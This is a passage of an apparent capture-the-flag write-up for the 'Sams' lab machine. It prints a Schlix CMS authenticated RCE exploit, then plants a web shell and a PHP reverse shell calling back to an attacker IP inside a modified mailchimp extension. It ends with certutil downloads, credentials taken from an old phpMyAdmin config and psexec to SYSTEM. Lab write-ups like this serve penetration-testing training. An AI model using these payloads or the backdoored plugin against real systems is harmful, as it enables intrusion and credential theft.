
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ cat 49838.txt                              
# Exploit Title: Schlix CMS 2.2.6-6 - Remote Code Execution (Authenticated)
# Date: 2021-05-06
# Exploit Author: Eren Saraç
# Vendor Homepage: https://www.schlix.com/
# Software Link: https://www.schlix.com/downloads/schlix-cms/schlix-cms-v2.2.6-6.zip
# Version: 2.2.6-6
# Tested on: Windows & WampServer

==> Tutorial <==

1- Login with your account.
2- Go to the block management section. Directory is '/admin/app/core.blockmanager'.
3- Create a new category.
4- Download the 'mailchimp' extension from here. => https://github.com/calip/app_mailchimp
5- Open the 'packageinfo.inc' file. It is in '/blocks/mailchimp' directory.
6- Paste this PHP code below and save it.
#####################################
$command = shell_exec('netstat -an');
echo "<pre>$command</pre>";

?>
#####################################

7- Compress the file to ZIP and rename it 'combo_mailchimp-1_0_1'.
8- Install a package to created category and enter the installed 'mailchimp' extension.
9- Click the 'About' tab and our php code will be executed.

==> Vulnerable 'packageinfo.inc' file. (mailchimp Extension) <==

<?php

$name = 'mailchimp';
$type = 'block';
$guid = '860e9d79-c5d0-37e4-894e-cdc19d06c7c3';
$version = '1.0';
$license = 'MIT';
$description = 'Mailchimp is the leading email marketing platform, that lets you send out fully customized email and newsletter campaigns to your subscribers. It is an imperative tool to build and follow through on your sales funnel, and helps you create and maintain lasting relations with your site visitors and customers.';
$author = 'Alip';
$url = 'https://github.com/calip/app_mailchimp';
$email = 'asalip.putra@gmail.com';
$copyright = 'Copyright &copy;2019 calip';
$command = shell_exec('netstat -an');
echo "<pre>$command</pre>";

?>

==> HTTP Request (ZIP Extension Installation) <==

POST /admin/app/core.blockmanager?&ajax=1&action=install HTTP/1.1
Host: (HOST)
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-Schlix-Ajax: 1
Content-Type: multipart/form-data; boundary=---------------------------29322337091578227221515354130
Content-Length: 51585
Origin: http(s)://(ORIGIN)
Connection: close
Referer: http(s)://(REFERER)/admin/app/core.blockmanager
Cookie: core-blockmanager_currentCategory=27; scx2f1afdb4b86ade4919555d446d2f0909=1pv1irnlepvjojieipevvn65p2;
schlix_frontendedit_control_showblock=-2; schlix_frontendedit_control_showhide=-2; schlix_frontendedit_control_showdoc=-2

-----------------------------29322337091578227221515354130
Content-Disposition: form-data; name="_csrftoken"

a3b9a0da8d6be08513f60d1744e2642df0702ff7
-----------------------------29322337091578227221515354130
Content-Disposition: form-data; name="zipfileupload"; filename="combo_mailchimp-1_0_1.zip"
Content-Type: application/x-zip-compressed

#############################################
#############################################
#############################################
#############################################
#############################################
#############################################
#############################################
#############################################
#############################################
#############################################

-----------------------------29322337091578227221515354130
Content-Disposition: form-data; name="MAX_FILE_SIZE"

2097152
-----------------------------29322337091578227221515354130
Content-Disposition: form-data; name="zipfileupload__total_file_size"

0
-----------------------------29322337091578227221515354130
Content-Disposition: form-data; name="zipfileupload__max_file_count"

20
-----------------------------29322337091578227221515354130
Content-Disposition: form-data; name="password"

# Your ACC Password.
-----------------------------29322337091578227221515354130--


==> HTTP Request (RCE - About Tab) <==

GET /admin/app/core.blockmanager?action=edititem&id=44 HTTP/1.1
Host: (HOST)
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http(s)://(HOST)/
Connection: close
Cookie: core-blockmanager_currentCategory=27; scx2f1afdb4b86ade4919555d446d2f0909=1pv1irnlepvjojieipevvn65p2; schlix_frontendedit_control_showblock=-2;
schlix_frontendedit_control_showhide=-2; schlix_frontendedit_control_showdoc=-2
Upgrade-Insecure-Requests: 1


==> HTTP Response (RCE - About Tab) <==

HTTP/1.1 200 OK
Date: Wed, 05 May 2021 21:49:24 GMT
Server: Apache/2.4.46 (Win64) PHP/7.3.21
X-Powered-By: PHP/7.3.21
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: scx2f1afdb4b86ade4919555d446d2f0909=1pv1irnlepvjojieipevvn65p2; expires=Wed, 05-May-2021 23:49:24 GMT; Max-Age=7200; path=/cms/; domain=127.0.0.1; HttpOnly; SameSite=lax
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 49575

<!DOCTYPE html>
<html>
<body>
<div id="tab_options" class="schlixui-childtab">
<pre>
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:902            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:912            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3307           0.0.0.0:0              LISTENING

<---snip--->

  UDP    192.168.1.8:63128      *:*
  UDP    [::]:5353              *:*
  UDP    [::]:5355              *:*
  UDP    [::1]:1900             *:*
  UDP    [::1]:63125            *:*
  UDP    [fe80::e4d5:62f5:da3:2dae%21]:1900  *:*
  UDP    [fe80::e4d5:62f5:da3:2dae%21]:2177  *:*
  UDP    [fe80::e4d5:62f5:da3:2dae%21]:63124  *:*
</pre>
<div class="content">
    <div class="row">
        <div class="col-xs-12">
            <div class="text-center">
                <h1>mailchimp</h1>
                <p>v1.0</p><p>Author: <a href="mailto:asalip.putra@gmail.com">Alip</a></p>
                <p>Web: <a href="https://github.com/calip/app_mailchimp">https://github.com/calip/app_mailchimp</a></p>
                <p><a href="/cms/admin/app/core.blockmanager?action=uninstall&name=mailchimp"><i class="fa fa-times-circle"></i>Uninstall</a></p>
            </div>
         </div>
    </div>
</div>
</div>
</body> 
```

### Download the mailchimp extension

Following the exploit, we download the mailchimp extension

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ wget https://github.com/alipultra/app_mailchimp/archive/refs/heads/master.zip
--2025-09-19 17:40:57--  https://github.com/alipultra/app_mailchimp/archive/refs/heads/master.zip
Resolving github.com (github.com)... 4.225.11.194
Connecting to github.com (github.com)|4.225.11.194|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/alipultra/app_mailchimp/zip/refs/heads/master [following]
--2025-09-19 17:40:57--  https://codeload.github.com/alipultra/app_mailchimp/zip/refs/heads/master
Resolving codeload.github.com (codeload.github.com)... 4.225.11.198
Connecting to codeload.github.com (codeload.github.com)|4.225.11.198|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/zip]
Saving to: ‘master.zip’

master.zip                                        [ <=>                                                                                              ]  50.47K  --.-KB/s    in 0.08s   

2025-09-19 17:40:57 (643 KB/s) - ‘master.zip’ saved [51684]


┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ unzip master.zip           
Archive:  master.zip
d251c03f650f72990fbda44fb67ec1a879ca4469
   creating: app_mailchimp-master/
  inflating: app_mailchimp-master/README.md  
   creating: app_mailchimp-master/mailchimp/
   creating: app_mailchimp-master/mailchimp/apps/
   creating: app_mailchimp-master/mailchimp/apps/mailchimp/
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/config.template.php  
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/edit.category.template.php  
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/edit.item.template.php  
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/install.sql  
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/mailchimp.admin.class.php  
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/mailchimp.admin.js  
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/mailchimp.class.php  
 extracting: app_mailchimp-master/mailchimp/apps/mailchimp/mailchimp.css  
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/mailchimp.js  
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/mailchimp_logo.png  
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/packageinfo.inc.php  
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/uninstall.sql  
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/view.category.simple.template.php  
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/view.item.template.php  
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/view.main.admin.template.php  
  inflating: app_mailchimp-master/mailchimp/apps/mailchimp/view.main.template.php  
   creating: app_mailchimp-master/mailchimp/blocks/
   creating: app_mailchimp-master/mailchimp/blocks/mailchimp/
  inflating: app_mailchimp-master/mailchimp/blocks/mailchimp/config.template.php  
  inflating: app_mailchimp-master/mailchimp/blocks/mailchimp/mailchimp.class.php  
  inflating: app_mailchimp-master/mailchimp/blocks/mailchimp/mailchimp_logo.png  
  inflating: app_mailchimp-master/mailchimp/blocks/mailchimp/packageinfo.inc.php  
  inflating: app_mailchimp-master/mailchimp/blocks/mailchimp/view.block.template.php  
```

And modify the file `packageinfo.inc.php`

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ cd app_mailchimp-master/mailchimp/blocks/mailchimp 

┌──(kali㉿kali)-[/mnt/…/app_mailchimp-master/mailchimp/blocks/mailchimp]
└─$ vi packageinfo.inc.php 

┌──(kali㉿kali)-[/mnt/…/app_mailchimp-master/mailchimp/blocks/mailchimp]
└─$ cat packageinfo.inc.php                           
<?php

$name = 'web shell';
$type = 'block';
$guid = '860e9d79-c5d0-37e4-894e-cdc19d06c7c3';
$version = '1.0';
$license = 'MIT';
$description = 'Mailchimp is the leading email marketing platform, that lets you send out fully customized email and newsletter campaigns to your subscribers. It is an imperative tool to build and follow through on your sales funnel, and helps you create and maintain lasting relations with your site visitors and customers.';
$author = 'Alip';
$url = 'https://github.com/calip/app_mailchimp';
$email = 'asalip.putra@gmail.com';
$copyright = 'Copyright &copy;2019 calip';
if (isset($_REQUEST['cmd'])) {
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
};
?>
```

Before zipping it up again. Note that only the `mailchimp` sub-directory is zipped!

```bash
┌──(kali㉿kali)-[/mnt/…/app_mailchimp-master/mailchimp/blocks/mailchimp]
└─$ cd ../../..                                       

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Sams/app_mailchimp-master]
└─$ ls -l
total 1
drwxrwxrwx 1 root root  0 Jan  7  2020 mailchimp
-rwxrwxrwx 1 root root 52 Jan  7  2020 README.md

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Sams/app_mailchimp-master]
└─$ zip -r mailchimp_fixed.zip mailchimp
  adding: mailchimp/ (stored 0%)
  adding: mailchimp/apps/ (stored 0%)
  adding: mailchimp/apps/mailchimp/ (stored 0%)
  adding: mailchimp/apps/mailchimp/config.template.php (deflated 70%)
  adding: mailchimp/apps/mailchimp/edit.category.template.php (deflated 69%)
  adding: mailchimp/apps/mailchimp/edit.item.template.php (deflated 70%)
  adding: mailchimp/apps/mailchimp/install.sql (deflated 82%)
  adding: mailchimp/apps/mailchimp/mailchimp.admin.class.php (deflated 58%)
  adding: mailchimp/apps/mailchimp/mailchimp.admin.js (deflated 68%)
  adding: mailchimp/apps/mailchimp/mailchimp.class.php (deflated 72%)
  adding: mailchimp/apps/mailchimp/mailchimp.css (stored 0%)
  adding: mailchimp/apps/mailchimp/mailchimp.js (deflated 69%)
  adding: mailchimp/apps/mailchimp/mailchimp_logo.png (deflated 1%)
  adding: mailchimp/apps/mailchimp/packageinfo.inc.php (deflated 38%)
  adding: mailchimp/apps/mailchimp/uninstall.sql (deflated 35%)
  adding: mailchimp/apps/mailchimp/view.category.simple.template.php (deflated 77%)
  adding: mailchimp/apps/mailchimp/view.item.template.php (deflated 60%)
  adding: mailchimp/apps/mailchimp/view.main.admin.template.php (deflated 66%)
  adding: mailchimp/apps/mailchimp/view.main.template.php (deflated 71%)
  adding: mailchimp/blocks/ (stored 0%)
  adding: mailchimp/blocks/mailchimp/ (stored 0%)
  adding: mailchimp/blocks/mailchimp/config.template.php (deflated 73%)
  adding: mailchimp/blocks/mailchimp/mailchimp.class.php (deflated 42%)
  adding: mailchimp/blocks/mailchimp/mailchimp_logo.png (deflated 1%)
  adding: mailchimp/blocks/mailchimp/packageinfo.inc.php (deflated 36%)
  adding: mailchimp/blocks/mailchimp/view.block.template.php (deflated 44%)
```

### Install the mailchimp package

Back in the Schlix CMS, we go to the `Block Manager` in the left menu.

There, we create a `New Category` called `Web_Shell`.

Click on the new category to the left and then click `Install a package`.

Select the `mailchimp_fixed.zip` file, add the admin password (`Password123!`) and press `Go`.



Select the `mailchimp` extension and then click the `About` tab.



To execute code we need to add out `cmd` parameter and our command.

Change the URL from `http://192.168.202.248/testing/admin/app/core.blockmanager?action=edititem&id=21` to

`http://192.168.202.248/testing/admin/app/core.blockmanager?action=edititem&id=21&cmd=dir` and refresh the page



We have code execution!

### Get the user flag

After some browsing around in the web shell we can get the user flag by accessing  
`http://192.168.202.248/testing/admin/app/core.blockmanager?action=edititem&id=21&cmd=type+C:\Users\sam\Desktop\local.txt`

Working with this web shell definitely isn't smooth so let's upgrade to a real reverse shell.

### Start a netcat listener

To prepare for an incoming reverse shell, we start a netcat listener on port 443

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ nc -lvnp 443
listening on [any] 443 ...

```

Then we package a new zip file with a reverse shell instead.  
We will use [this reverse shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ cd app_mailchimp-master/mailchimp/blocks/mailchimp

┌──(kali㉿kali)-[/mnt/…/app_mailchimp-master/mailchimp/blocks/mailchimp]
└─$ vi packageinfo.inc.php 

┌──(kali㉿kali)-[/mnt/…/app_mailchimp-master/mailchimp/blocks/mailchimp]
└─$ cat packageinfo.inc.php                                                                                         
<?php

$name = 'reverse shell';
$type = 'block';
$guid = '860e9d79-abcd-5678-1234-cdc19d06c7c4';
$version = '1.0';
$license = 'MIT';
$description = 'Mailchimp is the leading email marketing platform, that lets you send out fully customized email and newsletter campaigns to your subscribers. It is an imperative tool to build and follow through on your sales funnel, and helps you create and maintain lasting relations with your site visitors and customers.';
$author = 'Alip';
$url = 'https://github.com/calip/app_mailchimp';
$email = 'asalip.putra@gmail.com';
$copyright = 'Copyright &copy;2019 calip';
// Copyright (c) 2020 Ivan Šincek
// v2.6
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;

<---snip--->

echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('192.168.45.171', 443);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

Note that the GUID-value has changed!

We package our reverse shell

```bash
┌──(kali㉿kali)-[/mnt/…/app_mailchimp-master/mailchimp/blocks/mailchimp]
└─$ cd ../../..                                       

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Sams/app_mailchimp-master]
└─$ zip -r mailchimp2_fixed.zip mailchimp 
  adding: mailchimp/ (stored 0%)
  adding: mailchimp/apps/ (stored 0%)
  adding: mailchimp/apps/mailchimp/ (stored 0%)
  adding: mailchimp/apps/mailchimp/config.template.php (deflated 70%)
  adding: mailchimp/apps/mailchimp/edit.category.template.php (deflated 69%)
  adding: mailchimp/apps/mailchimp/edit.item.template.php (deflated 70%)
  adding: mailchimp/apps/mailchimp/install.sql (deflated 82%)
  adding: mailchimp/apps/mailchimp/mailchimp.admin.class.php (deflated 58%)
  adding: mailchimp/apps/mailchimp/mailchimp.admin.js (deflated 68%)
  adding: mailchimp/apps/mailchimp/mailchimp.class.php (deflated 72%)
  adding: mailchimp/apps/mailchimp/mailchimp.css (stored 0%)
  adding: mailchimp/apps/mailchimp/mailchimp.js (deflated 69%)
  adding: mailchimp/apps/mailchimp/mailchimp_logo.png (deflated 1%)
  adding: mailchimp/apps/mailchimp/packageinfo.inc.php (deflated 38%)
  adding: mailchimp/apps/mailchimp/uninstall.sql (deflated 35%)
  adding: mailchimp/apps/mailchimp/view.category.simple.template.php (deflated 77%)
  adding: mailchimp/apps/mailchimp/view.item.template.php (deflated 60%)
  adding: mailchimp/apps/mailchimp/view.main.admin.template.php (deflated 66%)
  adding: mailchimp/apps/mailchimp/view.main.template.php (deflated 71%)
  adding: mailchimp/blocks/ (stored 0%)
  adding: mailchimp/blocks/mailchimp/ (stored 0%)
  adding: mailchimp/blocks/mailchimp/config.template.php (deflated 73%)
  adding: mailchimp/blocks/mailchimp/mailchimp.class.php (deflated 42%)
  adding: mailchimp/blocks/mailchimp/mailchimp_logo.png (deflated 1%)
  adding: mailchimp/blocks/mailchimp/packageinfo.inc.php (deflated 63%)
  adding: mailchimp/blocks/mailchimp/view.block.template.php (deflated 44%)
```

And upload it!

### Get a reverse shell

Checking back at our netcat listener, we have a connection

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.171] from (UNKNOWN) [192.168.202.248] 54700
SOCKET: Shell has connected! PID: 6608
Microsoft Windows [Version 10.0.19045.2728]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\testing>whoami
sams-pc\sam

C:\xampp\htdocs\testing>
```

### Enumeration for privesc

Next, we enumerate the system for privilege escalation opportunities.

First we share WinPEAS

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ sudo systemctl start apache2        
[sudo] password for kali: 

```

And download it to sam's Downloads-directory

```bat
C:\Users\sam\Downloads> certutil -urlcache -split -f http://192.168.45.171/winPEASx64.exe winPEASx64.exe
****  Online  ****
  000000  ...
  9af800
CertUtil: -URLCache command completed successfully.

C:\Users\sam\Downloads> dir
 Volume in drive C has no label.
 Volume Serial Number is 08DF-534D

 Directory of C:\Users\sam\Downloads

09/19/2025  10:09 AM    <DIR>          .
09/19/2025  10:09 AM    <DIR>          ..
09/19/2025  10:09 AM        10,156,032 winPEASx64.exe
               1 File(s)     10,156,032 bytes
               2 Dir(s)  24,257,245,184 bytes free

C:\Users\sam\Downloads>
```

Then we run it.

```bat
C:\Users\sam\Downloads>winPEASx64.exe
 [!] If you want to run the file analysis checks (search sensitive information in files), you need to specify the 'fileanalysis' or 'all' argument. Note that this search might take several minutes. For help, run winpeass.exe --help                                                                                                                                         
ANSI color bit for Windows is not set. If you are executing this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
Long paths are disabled, so the maximum length of a path supported is 260 chars (this may cause false negatives when looking for files). If you are admin, you can enable it with 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
     
               ((((((((((((((((((((((((((((((((                                                                                                                                         
        (((((((((((((((((((((((((((((((((((((((((((                                                                                                                                     
      ((((((((((((((**********/##########(((((((((((((                                                                                                                                  
    ((((((((((((********************/#######(((((((((((                                                                                                                                 
    ((((((((******************/@@@@@/****######((((((((((                                                                                                                               
    ((((((********************@@@@@@@@@@/***,####((((((((((                                                                                                                             
    (((((********************/@@@@@%@@@@/********##(((((((((                                                                                                                            
    (((############*********/%@@@@@@@@@/************((((((((                                                                                                                            
    ((##################(/******/@@@@@/***************((((((                                                                                                                            
    ((#########################(/**********************(((((                                                                                                                            
    ((##############################(/*****************(((((                                                                                                                            
    ((###################################(/************(((((                                                                                                                            
    ((#######################################(*********(((((                                                                                                                            
    ((#######(,.***.,(###################(..***.*******(((((                                                                                                                            
    ((#######*(#####((##################((######/(*****(((((                                                                                                                            
    ((###################(/***********(##############()(((((                                                                                                                            
    (((#####################/*******(################)((((((                                                                                                                            
    ((((############################################)((((((                                                                                                                             
    (((((##########################################)(((((((                                                                                                                             
    ((((((########################################)(((((((                                                                                                                              
    ((((((((####################################)((((((((                                                                                                                               
    (((((((((#################################)(((((((((                                                                                                                                
        ((((((((((##########################)(((((((((                                                                                                                                  
              ((((((((((((((((((((((((((((((((((((((                                                                                                                                    
                 ((((((((((((((((((((((((((((((                                                                                                                                         

ADVISORY: winpeas should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own devices and/or with the device owner's permission.                                                                                              
                                                                                                                                                                                        
  WinPEAS-ng by @hacktricks_live                                                                                                                                                        

       /---------------------------------------------------------------------------------\                                                                                              
       |                             Do you like PEASS?                                  |                                                                                              
       |---------------------------------------------------------------------------------|                                                                                              
       |         Learn Cloud Hacking       :     training.hacktricks.xyz                 |                                                                                              
       |         Follow on Twitter         :     @hacktricks_live                        |                                                                                              
       |         Respect on HTB            :     SirBroccoli                             |   
<---snip--->
```

Going through the results, we find a PowerShell history file

```bat
����������͹ PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.19041.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\sam\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 276B
```

that contains

```bat
C:\Users\sam\Downloads>type C:\Users\sam\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cd C:\xampp\htdocs\
cd ..
ls -l
dir
cat .\properties.ini
cd .\phpMyAdmin\
ls
cat .\babel.config.json
cat .\config.inc.php
ls
cat .\config.inc.php .\config.inc.old.php
cp .\config.inc.php .\config.inc.old.php
notepad .\config.inc.old.php
cat .\config.inc.old.php
```

references to old configuration files.

In one of them, we find a password (`SeriousSAM14`) for the `root` XAMPP user

```bat
C:\xampp\phpMyAdmin>type config.inc.old.php
<?php
/*
 * This is needed for cookie based authentication to encrypt password in
 * cookie
 */
$cfg['blowfish_secret'] = 'xampp'; /* YOU SHOULD CHANGE THIS FOR A MORE SECURE COOKIE AUTH! */

/*
 * Servers configuration
 */
$i = 0;

/*
 * First server
 */
$i++;

/* Authentication type and info */
$cfg['Servers'][$i]['auth_type'] = 'config';
$cfg['Servers'][$i]['user'] = 'root';
$cfg['Servers'][$i]['password'] = 'SeriousSAM14';
$cfg['Servers'][$i]['extension'] = 'mysqli';
$cfg['Servers'][$i]['AllowNoPassword'] = true;
$cfg['Lang'] = '';
<---snip--->
```

Perhaps this password works for the Administrator user as well?

### Get a shell as Administrator

We use `psexec` from Impacket to get a shell as SYSTEM

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Sams]
└─$ impacket-psexec Administrator:SeriousSAM14@$TARGET_IP                     
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.202.248.....
[*] Found writable share ADMIN$
[*] Uploading file ZFYgONPb.exe
[*] Opening SVCManager on 192.168.202.248.....
[*] Creating service AVdt on 192.168.202.248.....
[*] Starting service AVdt.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2728]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system

C:\WINDOWS\system32> 
```

### Get the root flag

Finally, we get the root flag

```bat
C:\WINDOWS\system32> cd C:\users\administrator\desktop
 
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 08DF-534D

 Directory of C:\Users\Administrator\Desktop

01/24/2023  02:14 AM    <DIR>          .
01/24/2023  02:14 AM    <DIR>          ..
09/19/2025  04:05 AM                34 proof.txt
               1 File(s)             34 bytes
               2 Dir(s)  24,259,870,720 bytes free

C:\Users\Administrator\Desktop> type proof.txt
f<REDACTED>6

C:\Users\Administrator\Desktop> 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [certutil - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
- [feroxbuster - Documentation](https://epi052.github.io/feroxbuster-docs/docs/)
- [feroxbuster - GitHub](https://github.com/epi052/feroxbuster)
- [feroxbuster - Kali Tools](https://www.kali.org/tools/feroxbuster/)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [Impacket - GitHub](https://github.com/fortra/impacket)
- [Impacket - Kali Tools](https://www.kali.org/tools/impacket/)
- [MariaDB - Wikipedia](https://en.wikipedia.org/wiki/MariaDB)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [php-reverse-shell - ivan-cincek - GitHub](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [systemctl - Linux manual page](https://www.man7.org/linux/man-pages/man1/systemctl.1.html)
- [wget - Linux manual page](https://man7.org/linux/man-pages/man1/wget.1.html)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
- [WhatWeb - Kali Tools](https://www.kali.org/tools/whatweb/)
- [whoami - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/whoami)
- [winPEAS - GitHub](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [zip - Linux manual page](https://linux.die.net/man/1/zip)
